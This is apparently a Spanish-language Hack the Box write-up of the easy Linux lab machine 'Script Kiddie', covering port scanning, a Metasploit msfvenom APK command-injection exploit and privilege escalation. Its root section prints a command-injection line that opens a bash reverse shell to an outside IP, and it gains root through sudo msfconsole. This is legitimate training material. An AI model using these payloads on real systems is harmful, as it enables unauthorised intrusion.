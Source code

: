 ```yaml
---
description: >-
  G4l1l30 write-up on the easy-difficulty Linux machine Script Kiddie from
  https://hackthebox.eu
title: Hack the Box - Script Kiddie Writeup
date: 2021-05-22 15:40:00 -0600
categories: [Hack the Box, Writeup]
tags: [htb, hacking, hack the box, redteam, Linux, msfvenom, nmap, pivoting, msfconsole ]     # TAG names should always be lowercase
show_image_post: true
image: /assets/img/Linux/easy/scriptkiddie/InfoCard-ScriptKiddie.png
---
```


# Summary

Script Kiddie es una maquina bastante sencilla, el usuario es pensar un poco fuera de la caja. La parte del root es analizar un script sh, inyectar codigo  para escalar hacia otra cuenta y de ahi con privilegios de sudo obtener una shell de root, esta maquina en si no tiene complejidad.



## Info de la maquina

| VM column  | Detalles      |
| ---------- | ------------- |
| Nombre     | Script Kiddie |
| Dificultad | Easy          |
| Release    | 06/02/2021    |
| OS         | Linux         |
| IP         | 10.10.10.226  |

Editamos ***/etc/hosts***  y agregamos la IP **10.10.10.226** que apunte hacia **scriptkiddie.htb** 

# Escaneo de Puertos

Escaneamos los puertos con Masscan y Nmap, utilizando **Masscan_To_Nmap** , esta herramienta escanea puertos TCP y UDP, toma los abiertos y ejecuta Nmap en búsqueda de servicios y scripts por default, mas info y donde conseguir el script: 

* > [https://github.com/Purp1eW0lf/Masscan_to_Nmap](masscan_to_nmap.py)

Ejecutamos el script : ``sudo python3 masscan_to_nmap.py -i 10.10.10.226`` 

![masscan_01](C:\Users\robencarnacion\Desktop\Totally not a virus trust me ... i'm a dolphin\Blog\script kiddie\masscan_01.png)

Tenemos los siguientes dos puertos : **5000** y **22** , el resultado de Nmap nos arroja lo siguiente:

```bash
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 3c:65:6b:c2:df:b9:9d:62:74:27:a7:b8:a9:d3:25:2c (RSA)
|   256 b9:a1:78:5d:3c:1b:25:e0:3c:ef:67:8d:71:d3:a3:ec (ECDSA)
|_  256 8b:cf:41:82:c6:ac:ef:91:80:37:7c:c9:45:11:e8:43 (ED25519)
5000/tcp open  http    Werkzeug httpd 0.16.1 (Python 3.8.5)
|_http-title: k1d'5 h4ck3r t00l5
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 4.15 - 5.6 (95%), Linux 5.3 - 5.4 (95%), Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (94%), Linux 2.6.32 (94%), Linux 5.0 - 5.3 (94%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%), Adtran 424RG FTTH gateway (92%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
	
```



# Super H4x0r

Procedemos a verificar el puerto **5000**

![h4x0r](C:\Users\robencarnacion\Desktop\Totally not a virus trust me ... i'm a dolphin\Blog\script kiddie\h4x0r.png)

Un h4x0r WebSite xD, a simple vista tenemos tres(3) herramientas : **nmap** , **msfvenom** y **searchsploit** 

1) Nmap : 

![h4x0r](C:\Users\robencarnacion\Desktop\Totally not a virus trust me ... i'm a dolphin\Blog\script kiddie\h4x0r.png)

No se le puede sacar mas provecho.

2) Searchsploit : 

<img src="C:\Users\robencarnacion\Desktop\Totally not a virus trust me ... i'm a dolphin\Blog\script kiddie\h4x0r_02.png" alt="h4x0r_02" style="zoom:75%;" />

3) Msfvenom y why not, usaremos el mismo searchsploit para buscar algo al respecto: 

![h4x0r_03](C:\Users\robencarnacion\Desktop\Totally not a virus trust me ... i'm a dolphin\Blog\script kiddie\h4x0r_03.png)

Encontramos algo interesante, usaremos ese exploit.

![msf01](C:\Users\robencarnacion\Desktop\Totally not a virus trust me ... i'm a dolphin\Blog\script kiddie\msf01.png)

# User 

``exploit/unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection`` 



![msf02](C:\Users\robencarnacion\Desktop\Totally not a virus trust me ... i'm a dolphin\Blog\script kiddie\msf02.png)



Esto nos va a generar un archivo **.apk** 

![msf03](C:\Users\robencarnacion\Desktop\Totally not a virus trust me ... i'm a dolphin\Blog\script kiddie\msf03.png)

![msf04](C:\Users\robencarnacion\Desktop\Totally not a virus trust me ... i'm a dolphin\Blog\script kiddie\msf04.png)



Ponemos netcat a la escucha y : 

![msf05](C:\Users\robencarnacion\Desktop\Totally not a virus trust me ... i'm a dolphin\Blog\script kiddie\msf05.png)

Le hacemos un upgrade a nuestra shell: 

```bash
python3 -c "import pty;pty.spawn('/bin/bash')"
```

![kid_user](C:\Users\robencarnacion\Desktop\Totally not a virus trust me ... i'm a dolphin\Blog\script kiddie\kid_user.png)

Ya tenemos el 1er flag :) 



# Root

No hay mucho que hacer, no hay privilegios con sudo, no hay archivos con lo que podamos interactuar, nada interesante en el crontab o en los procesos, asi que hacemos algo de enum basico y nos movemo hacia el otro usuario **pwn** : ``/home/pwn`` veremos un script sh :

![kid_02](C:\Users\robencarnacion\Desktop\Totally not a virus trust me ... i'm a dolphin\Blog\script kiddie\kid_02.png)

Mientras se cumpla la condicion , ejecuta la sentencia de nmap y lo escribe en **hackers** , dado que el script es del usuario **pwn** :

![pwn](C:\Users\robencarnacion\Desktop\Totally not a virus trust me ... i'm a dolphin\Blog\script kiddie\pwn.png)

Intentaremos meter codigo para obtener un rev shell: 

```bash
echo "  ;/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.29/4445 0>&1' #" >> hackers
```

![pwn_01](C:\Users\robencarnacion\Desktop\Totally not a virus trust me ... i'm a dolphin\Blog\script kiddie\pwn_01.png)

![pwn_02](C:\Users\robencarnacion\Desktop\Totally not a virus trust me ... i'm a dolphin\Blog\script kiddie\pwn_02.png)

Verificamos los privilegios de sudo :

 

![root_01](C:\Users\robencarnacion\Desktop\Totally not a virus trust me ... i'm a dolphin\Blog\script kiddie\root_01.png)

Procedemos : 

```bash
sudo /opt/metasploit-framework-6.0.9/msfconsole
```

![root_02](C:\Users\robencarnacion\Desktop\Totally not a virus trust me ... i'm a dolphin\Blog\script kiddie\root_02.png)

:) 

![root_03](C:\Users\robencarnacion\Desktop\Totally not a virus trust me ... i'm a dolphin\Blog\script kiddie\root_03.png)

Una maquina bastante sencilla, con esto finalizamos el writeup.

![gali](C:\Users\robencarnacion\Desktop\Totally not a virus trust me ... i'm a dolphin\Blog\script kiddie\gali.png)

